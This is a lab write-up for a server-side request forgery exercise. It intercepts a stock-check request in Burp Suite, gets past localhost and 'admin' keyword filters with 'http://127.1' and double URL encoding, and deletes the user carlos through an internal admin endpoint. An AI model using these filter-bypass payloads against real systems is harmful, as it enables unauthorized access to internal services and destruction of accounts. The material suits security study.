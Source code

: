```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 4
---
```


![1](https://github.com/Knign/Write-ups/assets/110326359/93e692a4-31ec-47ef-b00a-a8bc5ec5da8e)

Let's check out the stock.

![2](https://github.com/Knign/Write-ups/assets/110326359/ec3075dd-4054-4fd9-80b8-4cc94cc65c33)

We can intercept the request using Burpsuite.

![3](https://github.com/Knign/Write-ups/assets/110326359/738c890f-7604-4eb8-89ae-7dc024f6dc81)

Let's send the request to the `Repeater`.

We can set the `stockApi` field to the following and send the request:

```
http://localhost/admin
```

![4](https://github.com/Knign/Write-ups/assets/110326359/2c4dfd87-1fa2-4a4b-a317-c1da7ff2a6ea)

So that request is blocked.

Let's send the following request:

```
http://127.1/
```

![6](https://github.com/Knign/Write-ups/assets/110326359/23bc4608-6d58-4b48-a606-715566d2db61)

Ah! That returns a valid response.

Let's try visiting the `/admin` page.

```
http://127.1/admin
```

![7](https://github.com/Knign/Write-ups/assets/110326359/0cbd23b5-c2fe-4ec0-9773-cfa5d7fa06a2)

Looks like the `admin` keyword is being pattern-matched and blocked.

We can get around it by double URL encoding the string.

![10](https://github.com/Knign/Write-ups/assets/110326359/95431df0-f4d3-4236-b29c-d4c9557694df)

Let's now send the following request:

```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```

![9](https://github.com/Knign/Write-ups/assets/110326359/ae5d389d-3095-4985-8517-6cab343fe83e)

We can now delete the `carlos` user.

```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos
```

![11](https://github.com/Knign/Write-ups/assets/110326359/0eb5aca8-a081-4762-bc3a-a282f5228548)

We have solved the lab.

![12](https://github.com/Knign/Write-ups/assets/110326359/227c637f-55d5-4f77-bb5b-dbb2578521b8)
